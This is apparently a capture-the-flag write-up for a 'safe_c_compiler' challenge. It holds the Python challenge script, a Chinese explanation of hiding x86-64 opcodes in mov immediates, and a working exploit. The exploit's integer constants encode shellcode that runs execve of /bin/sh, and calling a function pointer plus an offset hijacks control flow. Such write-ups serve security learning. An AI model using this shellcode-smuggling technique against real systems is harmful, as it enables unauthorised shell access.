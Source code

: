 # safe_c_compiler

challenge.py

```python
#!/usr/local/bin/python3 -u
import os
import subprocess
import tempfile
import re

print("Please Input your code")
code = input("> ")

if re.search(r'[A-Za-z]', code):
    print("error1")
    exit(1)

invalid_tokens = [
    "#","*","[","]","/","="
]
for token in invalid_tokens:
    if token in code:
        print("error2")
        print(token)
        exit(1)

if "_() {" not in code:
    print("error3")
    exit(1)

if code.count('{') > 1 or code.count('}') > 1:
    print("error4")
    exit(1)

with tempfile.TemporaryDirectory() as td:
    src_path = os.path.join(td, "source.c")
    compiled_path = os.path.join(td, "compiled")
    with open(src_path, "w") as file:
        file.write(code)

    returncode = subprocess.call(["gcc", "-B/usr/bin", "-Wl,--entry=_" ,"-nostartfiles", "-w", "-O0", "-o", compiled_path, src_path], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
    if returncode != 0:
        print("compilation error")
        exit(1)
    print("success")
    subprocess.call([compiled_path])
```

需要编写一个符合题目约束情况下，可以getshell的程序
x86 64架构linux下的函数调用约定前六个参数使用寄存器传参，分别是rdi rsi rdx rcx r8 r9，在函数调用前会将参数依次传入寄存器，所使用的指令是 mov regxxx,data

![图片](./pic1.png)

观察可以发现，可以利用这一现象去写opcode，然后找一个劫持控制流的方式错位字节跳过去就能getshell
但是`mov reg64,data`，最多只有八个字节的位置可以写opcode，但可以通过相对偏移跳转去连接这些错位字节的opcode
取地址符号并没有被禁用，可以通过`&_`拿到主函数的函数指针，加一个偏移量去call就可以劫持控制流

exp:

```bash
_() {
   (&_ + 41)(1852400175,0,0,6845231); // (/bin,0,0,/sh)
   _(19701566652744); // shl rcx,32; jmp $+19
   _(81265623368); // add rdi,rcx; jmp $+20
   _(81258304599); // push rdi; push rsp; pop rdi; jmp $+20
   _(5561986562150); // mov ax,0x3b; syscall
}
```

